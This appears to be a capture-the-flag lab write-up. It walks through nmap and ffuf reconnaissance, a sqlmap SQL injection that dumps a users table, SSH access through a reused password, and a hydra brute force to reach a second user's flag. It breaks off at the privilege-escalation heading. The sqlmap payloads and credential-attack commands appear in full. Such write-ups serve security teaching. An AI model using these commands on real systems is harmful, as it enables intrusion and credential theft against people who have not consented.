








## Scenario

> Hit 'em with the classics.

Access via: `10.112.175.21`

## Reconnaissance

### Full Port Scan

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap -p- 10.112.175.21    
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-04 19:39 +0200
Nmap scan report for 10.112.175.21
Host is up (0.036s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8000/tcp open  http-alt

Nmap done: 1 IP address (1 host up) scanned in 18.53 seconds
```

**Breakdown:**

- `sudo` runs the scan with root privileges
- `nmap` invokes the scanner
- `-p-` scans all 65535 TCP ports, rather than Nmap's default top 1000
- `10.112.175.21` is the target IP address

Two ports came back open: `22` (SSH) and `8000` (an HTTP-alt service).

### Service and Version Scan

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sudo nmap -p22,8000 10.112.175.21 -sV -sC 
Starting Nmap 7.991 ( https://nmap.org ) at 2026-11-04 19:41 +0200
Nmap scan report for 10.112.175.21
Host is up (0.035s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 cd:7b:c5:51:e4:95:e1:cb:f2:fe:a3:6b:f1:e6:97:5f (RSA)
|   256 a1:0e:d7:c6:be:33:6e:b0:3a:44:b1:22:ec:db:bf:9b (ECDSA)
|_  256 f3:df:8f:1d:17:56:99:e4:98:2e:fb:e5:91:99:8e:90 (ED25519)
8000/tcp open  http    Werkzeug httpd 2.0.2 (Python 3.8.10)
|_http-title:  Login 
|_http-server-header: Werkzeug/2.0.2 Python/3.8.10
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.66 seconds
```

**Breakdown:**

- `sudo` runs with root privileges
- `nmap` invokes the scanner
- `-p22,8000` restricts the scan to the two ports found open by the full port scan
- `10.112.175.21` is the target IP
- `-sV` attempts to fingerprint the version of the service running on each open port
- `-sC` runs Nmap's default script set against the target, which can surface extra detail such as SSH host keys

Port 8000 is a Werkzeug (Flask development server) instance running Python 3.8.10, with a page titled "Login".

## Web Application Enumeration

### Testing Default and Common Credentials

Browsing to `http://10.112.175.21:8000/` shows a login portal.



Tried `admin:admin` first.





The request returned 200 OK, but the response was the login page reloading rather than a successful authentication, so this was a dead end. `Password123!` was tried next with the same result. The login and register pages' source code were also checked for anything useful (hidden fields, comments, client-side logic) and nothing came of it.

### Registering an Account

With no obvious credentials to try, registered an account instead: username `hacker`, password `hacker`, email `hacker@hacker.com`.


Logging in as `hacker` reached the application's index page.


The page offered nothing beyond a greeting and a logout link, so this was also a dead end.

### Directory Fuzzing

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ffuf -u http://10.112.175.21:8000/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt -ic -c 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.3.0
________________________________________________

 :: Method           : GET
 :: URL              : http://10.112.175.21:8000/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-lowercase-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login                   [Status: 200, Size: 856, Words: 43, Lines: 26, Duration: 46ms]
                        [Status: 200, Size: 856, Words: 43, Lines: 26, Duration: 51ms]
register                [Status: 200, Size: 964, Words: 51, Lines: 27, Duration: 39ms]
logout                  [Status: 302, Size: 218, Words: 21, Lines: 4, Duration: 39ms]
                        [Status: 200, Size: 856, Words: 43, Lines: 26, Duration: 35ms]
```

**Breakdown:**

- `ffuf` invokes the fuzzer
- `-u http://10.112.175.21:8000/FUZZ` sets the target URL, with `FUZZ` marking where each wordlist entry is substituted
- `-w /usr/share/wordlists/...txt` supplies the wordlist of candidate paths
- `-ic` ignores comment lines in the wordlist
- `-c` colours the output

Three pages already known (`login`, `register`, `logout`; all known already) came back almost immediately; this ran in the background without turning up anything new.

## SQL Injection on the Login Form

With directory fuzzing unproductive, tried `sqlmap` against the login form's username and password parameters.

### Dumping Credentials with sqlmap

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ sqlmap 'http://10.112.175.21:8000/login' \                                                                                        
  -X POST \
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:153.0) Gecko/20100101 Firefox/153.0' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8' \
  -H 'Accept-Language: en-GB,ja;q=0.9' \
  -H 'Accept-Encoding: gzip, deflate' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'Origin: http://10.112.175.21:8000' \
  -H 'Sec-GPC: 1' \
  -H 'Connection: keep-alive' \
  -H 'Referer: http://10.112.175.21:8000/login' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Priority: u=0, i' \
  --data-raw 'username=*&password=*' --batch --dump
        ___
       __H__
 ___ ___[']_____ ___ ___  {1.10.10#stable}
|_ -| . [.]     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 19:55:24 /2026-11-04/

custom injection marker ('*') found in POST body. Do you want to process it? [Y/n/q] Y
[19:55:24] [INFO] testing connection to the target URL
[19:55:24] [INFO] checking if the target is protected by some kind of WAF/IPS
[19:55:24] [INFO] testing if the target URL content is stable
[19:55:24] [INFO] target URL content is stable
[19:55:24] [INFO] testing if (custom) POST parameter '#1*' is dynamic
[19:55:24] [WARNING] (custom) POST parameter '#1*' does not appear to be dynamic
[19:55:24] [WARNING] heuristic (basic) test shows that (custom) POST parameter '#1*' might not be SQL injectable
[19:55:25] [INFO] testing for SQL injection on (custom) POST parameter '#1*'
[19:55:25] [INFO] testing 'AND boolean-based blind - WHERE or HAVING clause'
[19:55:25] [INFO] testing 'Boolean-based blind - Parameter replace (original value)'
[19:55:25] [INFO] testing 'MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)'
[19:55:25] [INFO] testing 'PostgreSQL AND error-based - WHERE or HAVING clause'
[19:55:25] [INFO] testing 'Microsoft SQL Server/Sybase AND error-based - WHERE or HAVING clause (IN)'
[19:55:26] [INFO] testing 'Oracle AND error-based - WHERE or HAVING clause (XMLType)'
[19:55:26] [INFO] testing 'H2 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (CAST)'
[19:55:26] [INFO] testing 'Generic inline queries'
[19:55:26] [INFO] testing 'PostgreSQL > 8.1 stacked queries (comment)'
[19:55:26] [INFO] testing 'Microsoft SQL Server/Sybase stacked queries (comment)'
[19:55:27] [INFO] testing 'Oracle stacked queries (DBMS_PIPE.RECEIVE_MESSAGE - comment)'
[19:55:27] [INFO] testing 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)'
[19:55:37] [INFO] (custom) POST parameter '#1*' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable 
it looks like the back-end DBMS is 'MySQL'. Do you want to skip test payloads specific for other DBMSes? [Y/n] Y
for the remaining tests, do you want to include all tests for 'MySQL' extending provided level (1) and risk (1) values? [Y/n] Y
[19:55:37] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
[19:55:37] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
[19:55:37] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNION query injection technique test
[19:55:37] [INFO] target URL appears to have 4 columns in query
[19:55:37] [WARNING] reflective value(s) found and filtering out
[19:55:37] [INFO] (custom) POST parameter '#1*' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable
(custom) POST parameter '#1*' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
sqlmap identified the following injection point(s) with a total of 67 HTTP(s) requests:
---
Parameter: #1* ((custom) POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=' AND (SELECT 3336 FROM (SELECT(!SLEEP(5)))BOwu) AND 'Exaa'='Exaa&password=

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: username=' UNION ALL SELECT NULL,CONCAT(0x71706b7671,0x5551486572577342466a646373667a45674d4d705375487377426d455159506842646b6c47457879,0x7176707a71),NULL,NULL-- -&password=
---
[19:55:37] [INFO] the back-end DBMS is MySQL
back-end DBMS: MySQL >= 5.0.12
[19:55:38] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[19:55:38] [INFO] fetching current database
[19:55:38] [INFO] fetching tables for database: 'website'
[19:55:38] [INFO] fetching columns for table 'users' in database 'website'
[19:55:38] [INFO] fetching entries for table 'users' in database 'website'
Database: website
Table: users
[2 entries]
+----+-------------------+----------------+----------+
| id | email             | password       | username |
+----+-------------------+----------------+----------+
| 1  | smokey@email.boop | My_P@ssW0rd123 | smokey   |
| 2  | hacker@hacker.com | hacker         | hacker   |
+----+-------------------+----------------+----------+

[19:55:38] [INFO] table 'website.users' dumped to CSV file '/home/—REDACTED—/.local/share/sqlmap/output/10.112.175.21/dump/website/users.csv'
[19:55:38] [WARNING] HTTP error codes detected during run:
500 (Internal Server Error) - 27 times
[19:55:38] [INFO] fetched data logged to text files under '/home/—REDACTED—/.local/share/sqlmap/output/10.112.175.21'

[*] ending @ 19:55:38 /2026-11-04/
```

**Breakdown:**

- `sqlmap` invokes the tool
- `'http://10.112.175.21:8000/login'` is the target URL for the injection test
- `-X POST` sets the HTTP method to POST, matching the login form
- each `-H '...'` entry passes one header exactly as the browser sent it, so the crafted request matches a real login attempt as closely as possible
- `--data-raw 'username=*&password=*'` supplies the POST body, with the `*` markers telling sqlmap which parameters to test for injection (both `username` and `password`)
- `--batch` accepts sqlmap's default answer at every interactive prompt
- `--dump` extracts and prints the contents of whichever table sqlmap identifies as relevant once an injection point is confirmed

The `username` parameter was confirmed injectable (time-based blind and UNION-based), and sqlmap dumped the `users` table from the `website` database, recovering two accounts: `smokey:My_P@ssW0rd123` and the previously-registered `hacker:hacker`.

## Foothold via SSH

### Testing smokey's Credentials

The same credentials were confirmed to work on the web portal, but it showed the same page as the created account. 


Tried the same pair against SSH, on the theory that smokey might be reusing the password.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ssh smokey@10.112.175.21
** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
smokey@10.112.175.21's password: 

—SNIP—

Last login: Tue Dec  7 03:21:42 2021 from 10.0.2.15
smokey@ip-10-112-175-21:~$ 
```

**Breakdown:**

- `ssh` invokes the SSH client
- `smokey@10.112.175.21` connects as the user `smokey` to the target host

This confirmed the password reuse and gave a foothold as `smokey`.

### Internal Enumeration as smokey

```shell
smokey@ip-10-112-175-21:~$ find / -type f -name *user*.txt 2>/dev/null

/var/lib/cloud/instances/i-0c72c90bcc5cde541/user-data.txt
/home/hazel/user.txt
/usr/share/doc/cloud-init/userdata.txt
/usr/share/doc/cloud-init/examples/user-script.txt
```

**Breakdown:**

- `find /` starts the search from the filesystem root
- `-type f` restricts matches to regular files
- `-name *user*.txt` matches any filename containing "user" and ending in `.txt`
- `2>/dev/null` discards error output (such as "Permission denied") by redirecting stderr to the null device

```shell
smokey@ip-10-112-175-21:~$ cat /home/hazel/user.txt

cat: /home/hazel/user.txt: Permission denied
```

`user.txt` belongs to `hazel`, and `smokey` can't read it.

```shell
smokey@ip-10-112-175-21:~$ sudo -l

[sudo] password for smokey: 
Sorry, user smokey may not run sudo on ip-10-112-175-21.
```

**Breakdown:**

- `sudo` invokes sudo
- `-l` lists the commands the current user is permitted to run via sudo, without running any of them

`smokey` has no sudo rights at all.

```shell
smokey@ip-10-112-175-21:/etc$ cat passwd

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
usbmux:x:111:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
smokey:x:1000:1000:smokey:/home/smokey:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
mysql:x:113:117:MySQL Server,,,:/nonexistent:/bin/false
hazel:x:1001:1001::/home/hazel:/bin/bash
fwupd-refresh:x:114:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
ubuntu:x:1002:1003:Ubuntu:/home/ubuntu:/bin/bash
```

**Breakdown:**

- `cat` prints a file's contents
- `passwd` here refers to `/etc/passwd` (the working directory at the time was `/etc`), listing every local account and its configured shell

Confirms two interesting non-system accounts: `smokey` and `hazel`. `/etc/shadow` wasn't readable, as expected.

```shell
smokey@ip-10-112-175-21:/etc$ ss -tulnp

Netid               State                 Recv-Q                Send-Q                                    Local Address:Port                                Peer Address:Port               Process                                         
udp                 UNCONN                0                     0                                         127.0.0.53%lo:53                                       0.0.0.0:*                                                                  
udp                 UNCONN                0                     0                                    10.112.175.21%eth0:68                                       0.0.0.0:*                                                                  
tcp                 LISTEN                0                     70                                            127.0.0.1:33060                                    0.0.0.0:*                                                                  
tcp                 LISTEN                0                     128                                             0.0.0.0:8000                                     0.0.0.0:*                   users:(("python3",pid=803,fd=3))               
tcp                 LISTEN                0                     128                                             0.0.0.0:22                                       0.0.0.0:*                                                                  
tcp                 LISTEN                0                     4096                                      127.0.0.53%lo:53                                       0.0.0.0:*                                                                  
tcp                 LISTEN                0                     151                                           127.0.0.1:3306                                     0.0.0.0:*                                                                  
tcp                 LISTEN                0                     128                                                [::]:22                                          [::]:*        
```

**Breakdown:**

- `ss` invokes the socket statistics tool
- `-t` shows TCP sockets
- `-u` shows UDP sockets
- `-l` shows only listening sockets
- `-n` shows numeric addresses and ports instead of resolving names
- `-p` shows the process owning each socket

(`ifconfig` and `netstat` were tried first and weren't installed; `ss` was the available alternative.) A MySQL instance is listening locally on port 3306.

```shell
smokey@ip-10-112-175-21:/etc$ mysql -u smokey -h 127.0.0.1 -P 3306

ERROR 1045 (28000): Access denied for user 'smokey'@'localhost' (using password: NO)
smokey@ip-10-112-175-21:/etc$ mysql -u smokey -p -h 127.0.0.1 -P 3306
Enter password: 
ERROR 1045 (28000): Access denied for user 'smokey'@'localhost' (using password: YES)
```

**Breakdown (first command):**

- `mysql` invokes the MySQL client
- `-u smokey` connects as the MySQL user `smokey`
- `-h 127.0.0.1` connects to the local host
- `-P 3306` targets MySQL's default port

**Breakdown (second command):** as above, with `-p` added to prompt for a password rather than connecting without one.

`smokey` has no access to the MySQL server directly — a dead end.

```shell
smokey@ip-10-112-175-21:~$ ls -la

total 28
drwxr-xr-x 3 smokey smokey 4096 Dec  7  2021 .
drwxr-xr-x 5 root   root   4096 Nov  4 17:38 ..
lrwxrwxrwx 1 root   root      9 Dec  7  2021 .bash_history -> /dev/null
-rw-r--r-- 1 smokey smokey  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 smokey smokey 3771 Feb 25  2020 .bashrc
drwx------ 2 smokey smokey 4096 Dec  7  2021 .cache
lrwxrwxrwx 1 root   root      9 Dec  7  2021 .mysql_history -> /dev/null
-rw-r--r-- 1 smokey smokey  807 Feb 25  2020 .profile
-rw-rw-r-- 1 smokey smokey   75 Dec  7  2021 .selected_editor
-rw-r--r-- 1 smokey smokey    0 Dec  7  2021 .sudo_as_admin_successful
-rw------- 1 smokey smokey    0 Dec  7  2021 .viminfo
```

**Breakdown:**

- `ls` lists directory contents
- `-l` uses the long listing format, showing permissions, ownership and size
- `-a` includes hidden files

Both `.bash_history` and `.mysql_history` are symlinked to `/dev/null`, so no command history was recoverable there either.

### Brute-Forcing hazel's Password

With `smokey`'s route to `hazel` and to root exhausted, checked the hint for the user flag question, which read "Weak password" — a pointer towards brute-forcing `hazel`'s account.

```shell
smokey@ip-10-112-175-21:~$ which netexec
smokey@ip-10-112-175-21:~$ which hydra
```

**Breakdown:**

- `which` reports the path to an executable if it exists on the current `PATH`
- `netexec` / `hydra` is the tool being looked for

Neither tool was installed on the target, so password attacks had to be run from the attacking machine instead.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ hydra -l hazel -P /usr/share/wordlists/rockyou.txt -f ssh://10.112.175.21

Hydra v9.7 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2026-11-04 20:13:25
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://10.112.175.21:22/
```

**Breakdown:**

- `hydra` invokes the password brute-forcing tool
- `-l hazel` fixes the username to `hazel` rather than trying a list of usernames
- `-P /usr/share/wordlists/rockyou.txt` supplies the password wordlist
- `-f` stops as soon as a valid username/password pair is found
- `ssh://10.112.175.21` specifies the target service and host

While that ran in the background, ventured to make a few manual guesses against the target, on the theory that "weak password" might mean something simpler than a rockyou hit.

```shell
┌──(—REDACTED—㉿kali)-[~]
└─$ ssh hazel@10.112.175.21             

** WARNING: connection is not using a post-quantum key exchange algorithm.
** This session may be vulnerable to "store now, decrypt later" attacks.
** The server may need to be upgraded. See https://openssh.com/pq.html
hazel@10.112.175.21's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.15.0-138-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Wed 04 Nov 2026 06:17:16 PM UTC

  System load:  0.0               Processes:             137
  Usage of /:   64.3% of 9.75GB   Users logged in:       1
  Memory usage: 18%               IPv4 address for eth0: 10.112.175.21
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Your Hardware Enablement Stack (HWE) is supported until April 2025.

Last login: Sun Dec 12 04:36:05 2021 from 10.0.2.15
hazel@ip-10-112-175-21:~$ 
```

**Breakdown:**

- `ssh` invokes the SSH client
- `hazel@10.112.175.21` connects as the user `hazel` to the target host. 

The hint made no exaggeration; it was genuinely a weak password — hazel had used their own username as their password. `hazel:hazel`. The Hydra run was no longer needed. 

```shell
hazel@ip-10-112-175-21:~$ ls

hasher.py  user.txt
hazel@ip-10-112-175-21:~$ cat user.txt
—REDACTED—
```

**Breakdown (`cat`):**

- `cat` prints a file's contents
- `user.txt` is the file being read

### Question 1 — What is the user flag?

**Answer:** `—REDACTED—`

## Privilege Escalation

### Checking sudo Permissions

```shell
